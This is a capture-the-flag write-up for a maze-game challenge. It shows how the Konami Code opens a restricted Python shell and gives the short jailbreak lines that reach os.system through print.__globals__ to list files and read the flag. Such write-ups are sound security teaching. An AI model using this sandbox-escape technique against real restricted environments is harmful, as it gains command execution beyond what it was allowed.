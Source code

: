 # Episode 3: Challenge 2

## Description

> You got in, but can you get out? Better run fast. socat FILE:`tty`,raw,echo=0 TCP:shell-sprinter.h4ck.ctfcompetition.com:1337 (Shift+Q to quit)
> 
> Hint: If you ain't cheating, you ain't trying

## Solution

Let's connect to the server:

```console
#######################################################
\ You wake up in an unfamiliar place. Or rather, it   \
\ seems familiar but somehow... not. Like a place     \
\ you’ve visited a thousand times but now rendered in \
\ a dream. You’re in a dark corridor, your small orb  \
\ of light illuminates only the faded green linoleum  \
\ that drops away into blackness. You check your      \
\ pockets. Nothing. You’re alone.                     \
\                                                     \
\                                                     \
\ You begin to walk, only to encounter... a blank     \
\ wall. The smooth, cream facade blocks your way      \
\ abruptly. You follow it, skirting the wall closely  \
\ and discover a fork in the corridor. ‘Ok. This is a \
\ maze.’ As you pause to take stock you hear the      \
\ knocking of even footsteps. They’re growing closer. \
\ The sound is innocuous, but you feel a surge of     \
\ panic. It starts in the back of your head and       \
\ washes over you in a hot wave. You’re not sure how, \
\ but you know it is time to leave. On an instinctual \
\ level, you know. It’s time to escape...             \
\                                                     \
\                                                     \
#######################################################
```

It's actually a fairly fun ASCII-based game:

```
\\ @scape_986e080b ]=~~-###############################
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\            --------------                           \
\            |........|...|                           \
\            |@..|....|...|                           \
\            |...|........|                           \
\            |....@...|...|                           \ Energy Level: Fine
\            ---------|...|                           \
\                     |...---O       |---=----        \ )=[Inventory]=~--------
\                     |............  |.......|        \  1. Datakey [trs80]
\                     ----..--- ------.....x.|        \  2.
\                       |............|.......|        \  3.
\                       |....-----...O.......O        \  4.
\                       |............|.......|        \  5.
\                       -------------|.......|        \  6.
\                                    |.......---------\  7.
\                                    |................\  8.
#######################################################
```

We can go on and on, but the instructions told us to cheat, so let's try some famous cheating codes.

Guess what happens when you enter the [Konami Code](https://en.wikipedia.org/wiki/Konami_Code) (up, up, down, down, left, right, left, right, B, A and Enter):

```
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
#######################################################
 >>>
```

We get a Python shell!

```
\ print("Test")                                       \
\ Test                                                \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
\                                                     \
#######################################################
 >>> [Enter - continue, r - return to game]
```

It's a restricted shell with a character limit of 70 characters and many blocked commands:

```
\ system("ls")                                        \
\ name 'system' is not defined                        \
```

Moreover, the shell does not remember commands across attempts, so we can't make assignments to variables to bypass the length limitation.

After trying many different jailbreak commands, here are the ones that worked:

```python
print.__globals__['__builtins__'].__import__('os').system('ls')
print.__globals__['__builtins__'].__import__('os').system('cat flag')
```

The flag: `https://h4ck1ng.google/solve/7h3_s1mul4crum_i5_7rue`.